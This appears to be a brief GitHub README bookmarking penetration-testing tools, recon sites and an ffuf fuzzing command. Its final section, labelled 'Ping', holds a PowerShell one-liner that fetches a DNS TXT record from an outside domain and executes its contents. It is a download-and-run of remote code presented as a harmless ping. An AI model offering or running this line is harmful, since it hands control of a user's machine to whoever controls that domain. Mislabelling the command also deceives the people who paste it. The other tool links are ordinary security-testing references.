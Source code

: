 # ac-bookmark
Free Tools and Source For Security Pentest .. 😎

```sh
https://github.com/jpillora/chisel
https://github.com/samratashok/nishang
https://github.com/411Hall/JAWS
https://github.com/unicorn-engine/unicorn
https://github.com/ropnop/kerbrute
```

```sh
https://vulners.com
https://crt.sh
https://grep.app
```

### Command FUZZIng Check extension in request
```sh
ffuf -request 'file.req' -request-proto hhtp or https -w 'List extensions fuzzing' -ms 'size header+body'
```

### Ping 

```sh
powershell . (nslookup -q=txt mrmtwoj.ir)[-1]
```
